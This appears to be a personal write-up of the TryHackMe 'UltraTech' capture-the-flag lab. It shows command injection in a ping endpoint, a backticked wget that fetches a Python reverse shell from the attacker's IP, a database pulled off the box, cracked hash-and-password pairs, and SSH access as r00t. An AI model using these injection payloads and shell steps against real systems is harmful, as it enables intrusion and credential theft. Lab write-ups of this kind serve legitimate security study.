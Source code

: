 - Since we can ping our IP, if we can inject our code in IP, we can get a reverse shell [[PNPT/LPE/Capstones/UltraTech - THM/Enumeration]]

# Python reverse shell
----
- Detection of RCE:
	- **GET /ping?ip=0.0.0.0;**
	- ![[Pasted image 20250501162612.png]]
	- ![[Pasted image 20250501162645.png]]
- Get a reverse shell by putting **python reverse shell code in a file and transferring it**
	- **GET /ping?ip=0.0.0.0;`wget+10.11.135.80/rev.py`**
	- ![[Pasted image 20250501162726.png]]
- `python rev.py`
	- ![[Pasted image 20250501162826.png]]
- ![[Pasted image 20250501162850.png]]

# Post - Enumeration
---
- Found `sqlite.db`file in current directory of `www`user:
	- ![[Pasted image 20250501163026.png]]
- Transfer using `python3 -m http.server`
	- ![[Pasted image 20250501163237.png]]
	- ![[Pasted image 20250501163248.png]]
- Browser using `sqlitebrowser`built in tool:
	- ![[Pasted image 20250501163419.png]]
	- `admin`  `0d0ea5111e3c1def594c1684e3b9be84`: `mrsheafy`
	- `r00t`    `f357a0c52799563c7c7b76c1e7543a32`: `n100906`
	- Cracked using 
		- ![[Pasted image 20250501163914.png]]

# SSH with r00t user:
---
- `r00t`: `n100906`

